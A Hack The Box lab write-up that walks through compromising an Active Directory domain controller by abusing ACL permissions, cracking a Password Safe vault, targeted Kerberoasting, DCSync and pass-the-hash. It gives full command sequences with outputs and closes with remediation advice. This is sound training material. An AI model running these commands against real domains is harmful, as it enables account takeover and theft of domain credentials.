

# Overview

**Machine:** Administrator  
**Platform:** Hack The Box  
**Publication format:** htb-administrator.md  

The engagement began with supplied low-privilege domain access rather than an unauthenticated exploit. The central finding was a sequence of delegated object permissions that converted control of one identity into control of the next.

**Documentation standard:** All meaningful stages, verification results, failed leads, command sequences, and operator notes from the uploaded source are retained below. A redacted placeholder means the method was documented but its secret value is intentionally excluded. Reported results and absent terminal evidence remain explicitly qualified.

### Engagement context from the original record

> **Engagement:** CPTS Prep Boxes / Administrator  
> **Target:** `10.129.88.220`  
> **Host / Domain:** `DC.administrator.htb` / `administrator.htb`  
> **Operating system:** Windows Server 2022 (Build 20348), x64  
> **Assessment model:** Assumed breach; a low-privilege domain account was supplied  
> **Result:** Domain Administrator compromise **reported complete**; final secretsdump output, Administrator session transcript, and root flag value were not shared in the conversation.  
> **Key techniques:** Authenticated BloodHound enumeration, Active Directory ACL abuse, password resets, FTP credential reuse, Password Safe cracking, targeted Kerberoasting, clock-skew remediation, DCSync, pass-the-hash.

**Scope:** This document captures the attack as performed against an authorized Hack The Box training machine. Commands that modify user passwords, SPNs, or replicate credentials should only be used in an authorized assessment.

---

### Executive summary

Administrator was a single-domain-controller Active Directory lab that began with supplied credentials for `administrator.htb\Olivia`. The initial scans showed a Windows Server 2022 DC with Kerberos, LDAP, SMB, FTP, and WinRM accessible. Anonymous FTP was disabled. Although SMB reported that an empty authentication attempt was accepted, anonymous share enumeration returned `STATUS_ACCESS_DENIED`, and the Guest account was disabled.

Authenticated BloodHound enumeration revealed an object-control chain: **Olivia had `GenericAll` over Michael**, and **Michael had `ForceChangePassword` over Benjamin**. By resetting these accounts' passwords using `bloodyAD`, access was obtained to Benjamin's FTP account. Benjamin's FTP directory exposed an encrypted Password Safe database named `Backup.psafe3`. Its master password was recovered offline using John the Ripper and `rockyou.txt`; the database contained credentials for `Emily`.

A second BloodHound path showed **Emily had `GenericWrite` over Ethan**, and **Ethan had domain replication permissions** (`GetChanges`, `GetChangesAll`, and `GetChangesInFilteredSet`). Emily's permission enabled targeted Kerberoasting against Ethan. A roughly seven-hour clock difference initially caused `KRB_AP_ERR_SKEW`; executing the tool through `faketime` with a `+7h` offset resolved the failure and produced `ethan.tgs`. Ethan's password was recovered as `[REDACTED]`. The reported final stage used Ethan's replication rights to compromise the domain Administrator account.

#### Outcome at a glance

| Objective | Evidence / status |
|---|---|
| Identify DC and domain | Confirmed by Nmap and NetExec output |
| Validate initial credentials | Confirmed: Olivia over SMB and WinRM |
| Find ACL route to Benjamin | Confirmed in BloodHound screenshots |
| Reset Michael and Benjamin | Confirmed successful by `bloodyAD` |
| Authenticate to FTP | Confirmed: `230 User logged in` as Benjamin |
| Download and crack Password Safe vault | Vault discovered; John returned master password |
| Recover Emily credentials | Reported by operator after opening vault |
| Identify Emily → Ethan ACL edge | Confirmed in BloodHound screenshot |
| Targeted Kerberoast Ethan | Confirmed: tool wrote `ethan.tgs` |
| Recover Ethan password | Reported by operator (`[REDACTED]`) |
| DCSync and Administrator access | Operator reported successful completion; exact output not supplied |

---

## Enumeration

This section documents the initial conditions, observable services, reachable applications and evidence that informed the next action.

### Reconnaissance

#### Full TCP scan

The initial full-port scan was performed with:

```bash
sudo nmap -p- --min-rate 5000 -T4 -Pn -oN allports.txt 10.129.88.220
```

The following TCP ports were reported as open:

```text
21     FTP
53     DNS
88     Kerberos
135    MSRPC
139    NetBIOS
389    LDAP
445    SMB
464    Kerberos password change
593    RPC over HTTP endpoint mapper
636    LDAPS
3268   Global Catalog LDAP
3269   Global Catalog LDAPS
5985   WinRM
9389   Active Directory Web Services
47001  WinRM HTTP service
49664, 49665, 49666, 49667, 49668,
50924, 50935, 50940, 50951, 58305   High RPC / dynamic ports
```

The prominent Kerberos, LDAP, SMB, Global Catalog, and ADWS services strongly suggested a domain controller. FTP stood out as a potentially useful non-default path into stored files, while WinRM was promising for interactive access if valid credentials were available.

#### Targeted service detection

```bash
sudo nmap -sCV -p21,53,88,389,445,5985 \
  -oN targeted.txt 10.129.88.220
```

Relevant observed service fingerprints:

```text
21/tcp   open  ftp          Microsoft ftpd
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP
445/tcp  open  microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0

LDAP domain: administrator.htb
Host: DC
SMB signing: enabled and required
SMBv1: None
Nmap clock skew: 7h00m00s
```

The clock-skew finding became important during the Kerberos attack later in the engagement.

#### Unauthenticated SMB and FTP checks

```bash
nxc smb 10.129.88.220
nxc smb 10.129.88.220 -u '' -p '' --shares
nxc smb 10.129.88.220 -u guest -p '' --shares
ftp 10.129.88.220
```

NetExec identified:

```text
Windows Server 2022 Build 20348 x64
(name:DC) (domain:administrator.htb)
(signing:True) (SMBv1:None) (Null Auth:True)
```

The null-session share enumeration still failed:

```text
[+] administrator.htb\:
[-] Error enumerating shares: STATUS_ACCESS_DENIED
```

The guest login was explicitly denied:

```text
[-] administrator.htb\guest: STATUS_ACCOUNT_DISABLED
```

FTP anonymous login was also unsuccessful. **Lesson:** `Null Auth: True` is not equivalent to unrestricted anonymous share or domain enumeration. Test permissions, not just authentication outcomes.

---

### Initial access: supplied domain user Olivia

The machine's starting premise provided the following low-privileged credentials:

| Property | Value |
|---|---|
| Domain | `administrator.htb` |
| Username | `Olivia` |
| Password | `[REDACTED]` |
| DC | `10.129.88.220` |

#### Validate SMB credentials and enumerate shares

```bash
nxc smb 10.129.88.220 \
  -u Olivia -p '<REDACTED>' -d administrator.htb

nxc smb 10.129.88.220 \
  -u Olivia -p '<REDACTED>' --shares
```

Observed:

```text
[+] administrator.htb\Olivia:[REDACTED]

Share     Permissions   Remark
ADMIN$                 Remote Admin
C$                     Default share
IPC$      READ          Remote IPC
NETLOGON  READ          Logon server share
SYSVOL    READ          Logon server share
```

`ADMIN$` and `C$` were listed but **not** shown as writable or accessible with elevated permissions. The relevant authenticated-read shares were `IPC$`, `NETLOGON`, and `SYSVOL`.

#### Validate WinRM access

```bash
nxc winrm 10.129.88.220 \
  -u Olivia -p '<REDACTED>'
```

Observed:

```text
[+] administrator.htb\Olivia:[REDACTED] (Pwn3d!)
```

Thus Olivia was not merely an LDAP/SMB identity: she was authorized to log in using WinRM. No Olivia Evil-WinRM session transcript was provided, so this finding should be recorded as **validated WinRM access**, rather than a documented interactive shell.

---

## Analysis

The first BloodHound path supported password resets against Michael and Benjamin. FTP then provided an encrypted Password Safe database containing another identity. A second ACL path did not offer a direct password reset: Emily's GenericWrite permission over Ethan instead enabled a targeted SPN change and Kerberoasting. Ethan's replication privileges formed the reported final stage. Clock skew was an operational blocker, not evidence that the AD path was invalid.

### Attack path



**Critical distinction:** `GenericWrite` did not, by itself, allow Emily to reset Ethan's password. The chosen technique was to edit Ethan's SPN temporarily, obtain a roastable service ticket, and attack Ethan's password offline. Conversely, `GenericAll` on Michael and `ForceChangePassword` on Benjamin directly supported the observed password resets.

---

### BloodHound: first ACL chain

#### Collect Active Directory data

```bash
bloodhound-python \
  -u Olivia -p '<REDACTED>' \
  -d administrator.htb \
  -ns 10.129.88.220 \
  -dc DC.administrator.htb \
  -c All --zip
```

Output included:

```text
INFO: Found AD domain: administrator.htb
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication.
         Error: Name or service not known for DC.administrator.htb
INFO: Found 1 domains
INFO: Found 1 computers
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Done in 01M 21S
INFO: Compressing output into 20261023235318_bloodhound.zip
```

Even though the collector could not resolve the DC name for obtaining a Kerberos TGT, it **fell back to NTLM and completed collection**. The DNS error was not a reason to abandon the collected AD graph.

For later reliability, ensure `DC.administrator.htb` resolves:

```bash
getent hosts DC.administrator.htb
# If necessary in this isolated lab:
echo '10.129.88.220 DC.administrator.htb administrator.htb' | sudo tee -a /etc/hosts
```

#### Olivia has GenericAll over Michael

> **Referenced evidence (screenshot not supplied):** BloodHound: Olivia has GenericAll over Michael (`assets/01-olivia-genericall-michael.png`)

**Observation:** `OLIVIA@ADMINISTRATOR.HTB --GenericAll--> MICHAEL@ADMINISTRATOR.HTB`.

`GenericAll` on a user object implies extensive control over that object, including permission to reset the target user's password. The lab path therefore did not require knowledge of Michael's original password.

#### Michael has ForceChangePassword over Benjamin

> **Referenced evidence (screenshot not supplied):** BloodHound: Michael has ForceChangePassword over Benjamin (`assets/02-michael-forcechangepassword-benjamin.png`)

**Observation:** `MICHAEL@ADMINISTRATOR.HTB --ForceChangePassword--> BENJAMIN@ADMINISTRATOR.HTB`.

This edge provides the right to reset Benjamin's password without supplying his old password. The two edges compose cleanly: use Olivia to reset Michael, then use Michael to reset Benjamin.

---

### BloodHound: second ACL chain and replication rights

#### Emily has GenericWrite over Ethan

> **Referenced evidence (screenshot not supplied):** BloodHound: Emily has GenericWrite over Ethan (`assets/03-emily-genericwrite-ethan.png`)

**Observation:** `EMILY@ADMINISTRATOR.HTB --GenericWrite--> ETHAN@ADMINISTRATOR.HTB`.

`GenericWrite` allows edits to certain attributes of Ethan's AD object. For a user object, one useful abuse route is to assign a temporary `servicePrincipalName` (SPN) and request a Kerberos service ticket for the newly registered service - **targeted Kerberoasting**.

Unlike `GenericAll`, `GenericWrite` should not be summarized as an unrestricted right to reset Ethan's password. The operator correctly chose an abuse primitive supported by the observed control edge.

#### Ethan has replication privileges

> **Referenced evidence (screenshot not supplied):** BloodHound: Ethan has DCSync-related replication rights over administrator.htb (`assets/04-ethan-dcsync-rights.png`)

**Observation:** Ethan had these BloodHound edges to the domain object:

- `GetChanges`
- `GetChangesAll`
- `GetChangesInFilteredSet`

In the lab, these domain replication rights provide the basis for **DCSync**: a principal may request replicated directory secrets, including account password hashes, by using the directory replication protocols. Thus the primary objective shifted to recovering **Ethan's password**, not necessarily obtaining an Ethan shell.

---

## Validation

The following is the full technical sequence retained from the uploaded write-up, including commands, outputs, dead ends, corrected tests and the limits of available proof. Section order within this part follows the original investigation.

### Active Directory ACL abuse: Olivia → Michael → Benjamin

#### Reset Michael's password

```bash
bloodyAD --host 10.129.88.220 \
  -d administrator.htb \
  -u Olivia -p '<REDACTED>' \
  set password Michael '[REDACTED]'
```

Observed:

```text
[+] Password changed successfully!
```

A separate `nxc smb` command to check Michael's new credentials was entered, but no NetExec output appeared in the supplied transcript. The next action - an authenticated `bloodyAD` password change performed **as Michael** - succeeded and provides stronger practical evidence that Michael's reset worked.

#### Reset Benjamin's password as Michael

```bash
bloodyAD --host 10.129.88.220 \
  -d administrator.htb \
  -u Michael -p '<REDACTED>' \
  set password Benjamin '[REDACTED]'
```

Observed:

```text
[+] Password changed successfully!
```

#### WinRM does not grant access to every valid user

Checks against WinRM returned authentication/authorization failure messages:

```bash
nxc winrm 10.129.88.220 -u Benjamin -p '<REDACTED>'
# [-] administrator.htb\Benjamin:[REDACTED]
```

Another WinRM attempt used the **Michael username with Benjamin's password**, which cannot be taken as a meaningful test of Michael's actual credentials. Olivia's WinRM access remained valid.

**Interpretation:** A failed WinRM check does not, on its own, invalidate credentials for LDAP, SMB, or FTP. Authorization to access a given service is a separate question. We therefore pivoted the investigation to other exposed services instead of assuming the password resets had failed.

---

### Authenticated FTP: Benjamin → Backup.psafe3

#### Log in as Benjamin

```bash
ftp 10.129.88.220
```

Credentials used at the prompt:

```text
Username: Benjamin
Password: [REDACTED]
```

Observed:

```text
220 Microsoft FTP Service
331 Password required
230 User logged in.
Remote system type is Windows_NT.
```

Directory listing:

```text
ftp> ls
229 Entering Extended Passive Mode (|||50833|)
150 Opening ASCII mode data connection.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
```

The single exposed file, `Backup.psafe3`, had a size of **952 bytes**. The extension is associated with **Password Safe v3**, an encrypted password-manager database.

#### Retrieve the database

```text
ftp> binary
ftp> get Backup.psafe3
ftp> bye
```

```bash
file Backup.psafe3
ls -lh Backup.psafe3
```

The transfer/download command was advised in the session, and the successful subsequent cracking operation demonstrates that the operator obtained a readable copy. The original transfer output was not shared.

---

### Offline Password Safe cracking

#### Convert the database for John

```bash
pwsafe2john Backup.psafe3 > backup.hash
```

This extracts a crackable representation of the Password Safe database's master-password verifier. It does not decrypt entries on its own.

#### Run John the Ripper

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
```

Observed output:

```text
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 8 OpenMP threads
[REDACTED]     (Backu)
1g 0:00:00:00 DONE
Session completed.
```

The recovered **vault master password** was:

```text
[REDACTED]
```

The `2048` iteration figure is the cost reported for this specific vault, not a universal property of all Password Safe databases.

To verify a saved recovery:

```bash
john --show backup.hash
```

#### Open the vault and recover Emily's credential

The Password Safe GUI was recommended for reading the database:

```bash
sudo apt install passwordsafe -y
pwsafe -r Backup.psafe3
```

The operator reported obtaining this entry:

| Account | Password |
|---|---|
| `administrator.htb\Emily` | `[REDACTED]` |

The password was then used as the input credential for the next ACL abuse stage. The user did not provide a screenshot or inventory of all vault entries, so this report does not invent additional stored accounts.

**Lesson:** Recovering the password-manager master password is not the end of the attack. The valuable output is the set of stored credentials and the additional access they enable.

---

### Targeted Kerberoasting of Ethan

#### Tooling

The first attempt to invoke `targetedKerberoast.py` failed:

```text
bash: targetedKerberoast.py: command not found
```

The tool was acquired from the developer's repository:

```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
cd targetedKerberoast
python3 -m venv .venv
.venv/bin/pip install -r requirements.txt
```

Tool reference: <https://github.com/ShutdownRepo/targetedKerberoast>

#### Initial execution and clock-skew failure

```bash
.venv/bin/python targetedKerberoast.py \
  -d administrator.htb \
  -u Emily \
  -p '<REDACTED>' \
  --dc-ip 10.129.88.220 \
  --request-user Ethan \
  -o ethan.tgs
```

Observed:

```text
[*] Starting kerberoast attacks
[*] Attacking user (Ethan)
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

This was an **environmental Kerberos timing problem**, not evidence that Emily lacked `GenericWrite` or that the targeted Kerberoast technique was wrong.

Kerberos generally rejects requests when client/server timestamps differ beyond the domain's allowable tolerance (commonly five minutes). Earlier reconnaissance had already flagged approximately seven hours of clock skew.

#### Installing faketime correctly

The operator initially installed only the shared library:

```bash
sudo apt install libfaketime -y
```

The command was still absent:

```text
bash: faketime: command not found
```

The CLI program is delivered as the separate `faketime` package on this system:

```bash
sudo apt install faketime -y
```

The benefit of this approach in a lab is that it changes the apparent time for a process without changing the entire workstation's clock. NTP synchronization against the DC is another valid approach, but was not the successful command documented in this engagement.

#### Successful ticket request

```bash
faketime -f '+7h' .venv/bin/python targetedKerberoast.py \
  -d administrator.htb \
  -u Emily \
  -p '<REDACTED>' \
  --dc-ip 10.129.88.220 \
  --request-user Ethan \
  -o ethan.tgs
```

Observed:

```text
[*] Starting kerberoast attacks
[*] Attacking user (Ethan)
[+] Writing hash to file for (ethan)
```

The operator confirmed that `ethan.tgs` existed locally. The reported `+7h` offset was therefore effective for the specific session.

**Post-attack hygiene:** A targeted Kerberoasting utility normally attempts to restore the original SPN value. In a real engagement, verify that Ethan's `servicePrincipalName` attribute matches its pre-test state rather than assuming cleanup succeeded in every scenario.

---

### Offline cracking of Ethan's Kerberos ticket

The service-ticket hash was written to `ethan.tgs`.

For a hash starting with `$krb5tgs$23$`, the standard Hashcat mode is **13100**:

```bash
head -c 100 ethan.tgs
hashcat -m 13100 ethan.tgs /usr/share/wordlists/rockyou.txt
hashcat -m 13100 ethan.tgs --show
```

Alternatively:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ethan.tgs
john --show ethan.tgs
```

> **Accuracy note:** The ticket hash prefix and the final cracking command output were not pasted into the chat. The mode-13100 commands above apply if the captured hash is an RC4-HMAC `$krb5tgs$23$` hash; select the appropriate mode for other Kerberos enctype prefixes.

The operator reported the recovered Ethan password:

```text
[REDACTED]
```

This transformed Emily's write access into valid credentials for Ethan, whose account was identified as having replication rights over the domain.

---

### DCSync and domain Administrator compromise

> **Evidence boundary:** The operator said **“all done”** after receiving the final commands, indicating machine completion. The actual `secretsdump` output, NTLM hash, Administrator session output, and final flag value were not posted. The commands below document the planned/completed-by-report final stage, not console output that this report independently observed.

#### Validate Ethan

```bash
nxc smb 10.129.88.220 \
  -u Ethan -p '<REDACTED>' -d administrator.htb
```

#### Request Administrator account secrets via DCSync

```bash
impacket-secretsdump \
  'administrator.htb/Ethan:<REDACTED>@10.129.88.220' \
  -just-dc-user Administrator
```

This invokes Impacket's DRSUAPI-based secrets extraction with Ethan's credentials and requests the Administrator account's directory secrets. Expected successful output typically includes a line of the form:

```text
Administrator:500:<LM_HASH>:<NT_HASH>:::
```

**This line is a format illustration, not a captured hash or a fabricated output from the target.**

#### Pass the Administrator NTLM hash to WinRM

After extracting a valid Administrator NTLM hash, the proposed login was:

```bash
evil-winrm -i 10.129.88.220 \
  -u Administrator \
  -H '<NT_HASH_FROM_SECRETS_DUMP>'
```

An alternative SMB validation:

```bash
nxc smb 10.129.88.220 \
  -u Administrator -H '<NT_HASH_FROM_SECRETS_DUMP>'
```

#### Confirm identity and collect root proof

From an Administrator shell:

```powershell
whoami
hostname
type C:\Users\Administrator\Desktop\root.txt
```

The root flag's actual value is **not recorded** here because it was not supplied in the conversation.

#### Why this is a domain compromise

DCSync does not require an interactive desktop or local administrative session on the DC: the critical permission boundary is the right to **replicate domain secrets**. Possession of Ethan's credentials plus the replication permissions shown by BloodHound provides the mechanism to obtain the domain Administrator's NTLM secret. Successful Administrator authentication completes the privilege escalation.

---

### Troubleshooting, failed attempts, and decisions

| Issue | Evidence | Root cause / interpretation | Resolution |
|---|---|---|---|
| Anonymous FTP failed | Anonymous login denied | FTP required valid account credentials | Revisit FTP with Benjamin after ACL chain |
| SMB null auth had no useful share access | `STATUS_ACCESS_DENIED` | Authentication did not confer authorization | Stop treating null auth as an exposed file share |
| Guest SMB login failed | `STATUS_ACCOUNT_DISABLED` | Guest was disabled | Use intended supplied user |
| BloodHound Kerberos failed | Could not resolve `DC.administrator.htb` | DNS/hostname resolution issue | Collector fell back to NTLM and finished; optional hosts fix |
| Michael / Benjamin WinRM failed | NetExec `[-]` | No confirmed WinRM authorization for those users | Investigate another exposed service instead |
| Wrong credential pairing in one check | Michael username used with Benjamin password | Operator command mix-up | Track credentials per account, test accurately |
| `targetedKerberoast.py` missing | `command not found` | Tool not installed / in PATH | Clone repository and create virtual environment |
| Kerberoast initially failed | `KRB_AP_ERR_SKEW` | Kerberos rejected large time difference | Use `faketime` with correct process offset |
| `faketime` still missing | Only `libfaketime` installed | Shared library ≠ command-line wrapper | Install `faketime` package |
| Successful Kerberoast | `Writing hash to file for (ethan)` | Kerberos timestamp accepted | Proceed with offline crack |

#### Critical exam lesson

The operator did not need to exhaust every service or escalate every intermediate user's local permissions. Each identity served a specific **capability** in the chain:

- **Olivia:** Allowed WinRM and had ACL control over Michael.
- **Michael:** Had the right to reset Benjamin.
- **Benjamin:** Had FTP access to a password vault.
- **Emily:** Could edit Ethan's user attributes.
- **Ethan:** Had domain replication permissions.
- **Administrator:** Final domain-privileged identity.

Thinking in terms of permissions and opportunities, not just “which user has a shell?”, kept the chain direct.

---

### Concise reproduction command sequence

> This is a reference sequence for the same authorized HTB lab, using the credentials actually established above. It is **not** a replacement for verifying tool output and authorized scope.

```bash
# Confirm supplied access
nxc smb 10.129.88.220 -u Olivia -p '<REDACTED>' -d administrator.htb
nxc winrm 10.129.88.220 -u Olivia -p '<REDACTED>'

# Discover ACL paths
bloodhound-python -u Olivia -p '<REDACTED>' \
  -d administrator.htb -ns 10.129.88.220 \
  -dc DC.administrator.htb -c All --zip

# Abuse object-control rights
bloodyAD --host 10.129.88.220 -d administrator.htb \
  -u Olivia -p '<REDACTED>' \
  set password Michael '[REDACTED]'

bloodyAD --host 10.129.88.220 -d administrator.htb \
  -u Michael -p '<REDACTED>' \
  set password Benjamin '[REDACTED]'

# FTP: authenticate as Benjamin, switch to binary, download Backup.psafe3
ftp 10.129.88.220

# Offline vault crack
pwsafe2john Backup.psafe3 > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
john --show backup.hash

# Targeted Kerberoast with the observed clock fix
faketime -f '+7h' .venv/bin/python targetedKerberoast.py \
  -d administrator.htb -u Emily \
  -p '<REDACTED>' \
  --dc-ip 10.129.88.220 --request-user Ethan -o ethan.tgs

# Crack TGS: only mode 13100 if hash starts with $krb5tgs$23$
hashcat -m 13100 ethan.tgs /usr/share/wordlists/rockyou.txt
hashcat -m 13100 ethan.tgs --show

# Replicate Administrator's secrets with Ethan's credentials
impacket-secretsdump \
  'administrator.htb/Ethan:<REDACTED>@10.129.88.220' \
  -just-dc-user Administrator

# With the recovered Administrator NTLM hash:
evil-winrm -i 10.129.88.220 -u Administrator -H '<NT_HASH>'
```

---

## Impact

Password resets, the FTP exposure, the Kerberos ticket extraction and earlier authentication steps are supported by the retained evidence. Domain Administrator completion was reported, but the final DCSync transcript, Administrator session and root flag were not retained.

### Creds and artifacts ledger

> These are **training-lab secrets**. Do not republish unredacted passwords from a real client assessment.

| Stage | Identity / artifact | Recorded value or observation | Provenance |
|---|---|---|---|
| Initial | `Olivia` | `[REDACTED]` | Supplied starting credential |
| ACL reset 1 | `Michael` | `[REDACTED]` | Password set using Olivia / `bloodyAD` |
| ACL reset 2 | `Benjamin` | `[REDACTED]` | Password set using Michael / `bloodyAD` |
| FTP loot | `Backup.psafe3` | 952-byte Password Safe vault | Authenticated FTP listing |
| Vault | Master password | `[REDACTED]` | John the Ripper output |
| Vault entry | `Emily` | `[REDACTED]` | Operator-reported decrypted entry |
| Kerberos ticket | `ethan.tgs` | Captured on disk | TargetedKerberoast success output |
| Ticket crack | `Ethan` | `[REDACTED]` | Operator-reported recovered password |
| Replication | `Administrator` NTLM | **Not supplied** | Final DCSync stage reported complete |
| Final proof | `root.txt` | **Not supplied** | Box completion reported |

#### Local evidence and tool files

```text
allports.txt                         Full TCP scan (command used)
targeted.txt                         Service scan (command used)
20261023235318_bloodhound.zip       BloodHound collection archive
Backup.psafe3                        Password Safe database (retrieved)
backup.hash                          Password Safe John hash
ethan.tgs                            Targeted Kerberoast output
```

Not all listed files were uploaded with the conversation; their names are included because the console transcript established or instructed their creation.

---

### Final assessment

**Administrator is a cohesive Active Directory assumed-breach exercise built around chaining delegated rights to reach secrets.** The central lesson is not a single exploit: it is recognizing that one account can control another, that the second account may unlock an entirely different service, and that a credential recovered from that service may unlock a second ACL route leading to domain-wide replication privileges.

The strongest steps were identifying the two BloodHound chains, correctly interpreting the ACL primitives, returning to FTP after the password resets, and using the Nmap clock-skew observation to fix Kerberos rather than abandoning the approach.

**Reported outcome:** machine completed, with domain compromise via Ethan's DCSync rights. **Evidence still absent from the shared transcript:** actual DCSync hash, Administrator shell output, and flag. These omissions are deliberately documented instead of manufacturing a success log.

---

*Prepared for Enkidu's CPTS Prep Boxes field manual. All passwords and hosts above refer to the isolated training engagement.*

## Remediation

The defensive recommendations and operational lessons below address the demonstrated weaknesses. They follow the original source material instead of inferring additional compromise.

### Findings and remediation perspective

| Finding | Why it mattered | Defensive recommendation |
|---|---|---|
| Excessive `GenericAll` over user accounts | Enabled unapproved password reset and takeover | Restrict high-privilege user-object ACLs to trusted administrators; audit delegated permissions |
| `ForceChangePassword` to lateral target | Chained identity takeover | Review who can reset users' passwords, especially accounts with access to different services |
| Credential-bearing encrypted vault exposed via FTP | Supplied a foothold into additional identities | Restrict FTP access, inventory stored secrets, and avoid storing privileged credentials in broadly reachable backups |
| Weak/guessable vault master password | Offline dictionary attack recovered secrets rapidly | Use a strong unique master passphrase and modern vault protection; protect backup distribution |
| `GenericWrite` on a principal used for privileged access | Allowed attribute manipulation leading to a Kerberos ticket | Remove unnecessary write delegation and monitor unexpected SPN changes |
| Ethan granted domain replication rights | Enabled DCSync against domain users | Restrict replication permissions to domain controllers and explicitly approved synchronization principals |
| Domain security monitoring | ACL and SPN changes may otherwise blend into routine administration | Alert on unexpected directory-object modifications and replication attempts from non-DC systems |

Relevant Windows event sources to assess in a real environment include **4724** (password reset attempt), **5136** (directory object modification when auditing is configured), **4769** (Kerberos service ticket request), and **4662** (directory service object access / replication-right use when relevant SACLs and audit policies are configured). Event presence is configuration-dependent; these are detection opportunities, not evidence collected from this lab.

---

### CPTS methodology takeaways

1. **Recognize assumed-breach conditions immediately.** The box explicitly supplied Olivia's credentials. Spending excessive time on anonymous username guessing would have been inefficient.
2. **Collect BloodHound early when domain credentials are supplied.** Two independent ACL paths made the exploitation sequence apparent.
3. **Read relationship labels precisely.** `GenericAll`, `ForceChangePassword`, `GenericWrite`, and domain replication rights enable different primitives. The attack worked by matching the primitive to the edge.
4. **Failed WinRM is not proof of bad credentials.** Benjamin was unable to use WinRM but could authenticate to FTP. Reusing the credential appropriately unlocked the vault.
5. **Treat file discovery as credential discovery.** A tiny 952-byte encrypted `.psafe3` file became the bridge from Benjamin to Emily.
6. **Distinguish vault password from vault contents.** Cracking `[REDACTED]` mattered because it exposed Emily's credential, not because it was necessarily a domain password.
7. **Pay attention to time during Kerberos attacks.** Nmap's seven-hour clock-skew warning predicted a later blocker; `faketime` resolved it without changing the global host clock.
8. **Install the right package for the actual command.** `libfaketime` did not provide the `faketime` CLI in this environment.
9. **Use service access to move forward, not necessarily shells.** Michael and Benjamin were valuable even without WinRM login.
10. **Prove the ultimate boundary crossed.** Domain replication rights plus a recovered credential support a DCSync route. In a professional report, attach the successful DCSync transcript, NT hash fingerprint (redacted), Administrator identity check, and final proof.
11. **Keep wordlist choice evidence-driven.** `rockyou.txt` solved this vault quickly, but a single short/default list failing should not automatically end offline cracking; assess permitted time, password patterns, and larger targeted lists.
12. **Log the exact account/password pairing.** A mistaken Michael/Benjamin WinRM pairing occurred; a credential ledger prevents misleading test conclusions.

---
